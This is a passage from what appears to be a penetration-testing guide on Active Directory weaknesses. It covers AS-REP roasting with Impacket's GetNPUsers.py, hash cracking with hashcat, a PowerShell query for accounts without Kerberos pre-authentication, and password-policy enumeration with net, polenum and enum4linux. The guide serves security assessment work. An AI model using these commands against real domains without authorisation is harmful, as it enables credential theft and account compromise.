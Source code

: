 If we do not know any, we can try a wordlist with usernames with Impacket:

    GetNPUsers.py <domain>/ -usersfile <USERLIST.TXT> -format [hashcat|john] -no-pass

If we do have low privileged domain user credentials, we can get the list of affected users with their Kerberos 
AS-REP hashes:

    GetNPUsers.py <domain>/<username>:<password> -request -format [hashcat|john]

If we get some hashes, we can try to crack the AS-REP hashes with hashcat using a dictionary attack:

    hashcat -m 18200 -a 0 hashes.txt wordlist.txt

Or use PowerShell on a domain controller to get the list of users which do not require Kerberos pre-authentication:

    Import-Module ActiveDirectory
    Get-ADuser -filter * -properties DoesNotRequirePreAuth | where {$._DoesNotRequirePreAuth -eq "True" -and $_.Enabled -eq "True"} | select Name

### Weak domain password policy

Some organisations enforce long and complex passwords, changing them frequently, others do not enforce strong password 
parameters and instead focus on strengthening compensatory controls in the internal environments, so that an account 
compromise has very little impact. Each approach has its advantages and disadvantages.

#### net

Display AD password policy from a domain joined Windows machine with low priviliges:

    net accounts /domain

#### polenum

Display AD password policy from Linux (Kali Linux) using `polenum`:

    polenum --username <username> --password <password> --domain <DC-IP>

#### enum4linux

Display AD password policy from Linux (Kali Linux) using `enum4linux`:

    enum4linux -P -u <username> -p <password> -w <domain> <DC-IP>

### Inactive domain accounts

Vulnerabilities caused by active user accounts without being used for a long time (according to their 
`Last logon date`) typically belong to employees that left the company, temporary accounts, and test accounts. This 
increases the attack surface for login attacks.

Collect information from the domain controller:
